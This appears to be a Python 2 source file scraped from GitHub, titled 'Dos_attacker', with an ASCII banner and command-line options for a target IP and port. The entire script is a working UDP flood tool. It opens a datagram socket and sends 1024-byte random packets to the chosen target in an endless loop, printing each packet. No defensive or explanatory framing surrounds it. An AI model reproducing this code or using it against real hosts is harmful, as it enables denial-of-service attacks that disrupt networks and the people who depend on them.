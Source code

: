 #-*-coding-Latin-1-

import socket
import random
from optparse import OptionParser

parser = OptionParser("""
________   ________    _________ 
\______ \  \_____  \  /   _____/ 
 |    |  \  /   |   \ \_____  \  
 |    `   \/    |    \/        \ 
/_______  /\_______  /_______  / 
        \/         \/        \/  attacker
[Options]:
		
				-t : target_IP
				-p : port
Exemple : python Dos_attacker.py -t 192.168.1.1 -p 80
""")
parser.add_option("-t", dest="target_IP", help="Enter you target_IP")
parser.add_option("-p", dest="port", help="Enter the port")
(options, args) = parser.parse_args()



try :
	target_IP = options.target_IP
	port = int(options.port)

	def Dos_attack(target_IP, port):
		sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		packet = random._urandom(1024)
		while True :
			sock.sendto(packet,(target_IP,port))
			print((packet.encode('hex')))

except :
	parser.error("L'exemple est devant vous !!")

Dos_attack(target_IP, port)
© 2021 GitHub, Inc.
